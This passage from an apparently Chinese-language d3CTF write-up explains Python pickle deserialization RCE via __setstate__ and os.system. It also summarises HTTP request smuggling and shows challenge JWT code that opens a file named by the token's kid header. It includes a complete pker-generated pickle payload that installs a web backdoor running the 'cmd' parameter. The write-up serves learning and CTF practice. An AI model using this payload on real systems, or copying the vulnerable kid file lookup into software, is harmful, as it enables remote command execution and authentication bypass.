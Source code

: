 如果对象原先是没有`__setstate__`这个方法的，那么利用`{'__setstate__': os.system}`来BUILE这个对象，那么现在对象的`__setstate__`就变成了`os.system`；接下来利用`"ls /"`来再次BUILD这个对象，则会执行`setstate("ls /")` ，而此时`__setstate__`已经被设置为`os.system`，因此实现了RCE。

![](d3CTF/v2-5f6f6661a916b296e3fac6fbed8427cc_720w.png)

#### pker

[EddieIvan01/pker: Automatically converts Python source code to Pickle opcode ](https://github.com/eddieivan01/pker)

使用pker可以帮助构造payload。

```shell
PS ...> Get-Content .\exp.py | python .\pker.py
b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'exec\'\ntRp6\n0g6\n(S\'index.GET = lambda self:__import__("os").popen(web.input().cmd).read()\'\ntR.'
```

### HTTP请求走私

👉[浅谈HTTP请求走私](https://xz.aliyun.com/t/7501?time__1311=n4%2BxnD0G0%3DdGqOrDlhI2qiKitG8QkOCY4D)

前后端服务器解析差异会导致前后端收到的数据可能不一样。

> 1. 前置服务器认为 `Content-Length` 优先级更高（或者根本就不支持 `Transfer-Encoding` ） ，后端认为 `Transfer-Encoding` 优先级更高。
> 2. 前置服务器认为 `Transfer-Encoding` 优先级更高，后端认为 `Content-Length` 优先级更高（或者不支持 `Transfer-Encoding` ）。
> 3. 前置和后端服务器都支持 `Transfer-Encoding`，但可以通过混淆让它们在处理时产生分歧，其实也就是变成了 CL-TE 或 TE-CL。

### 解题

JWT验证：

```Python
def get_key(kid):
    key = ""
    dir = "/app/"
    try:
        with open(dir+kid, "r") as f:
            key = f.read()
    except:
        pass
    print(key)
    return key

def verify_token(token):
    header = jwt.get_unverified_header(token)
    kid = header["kid"]
    key = get_key(kid)
```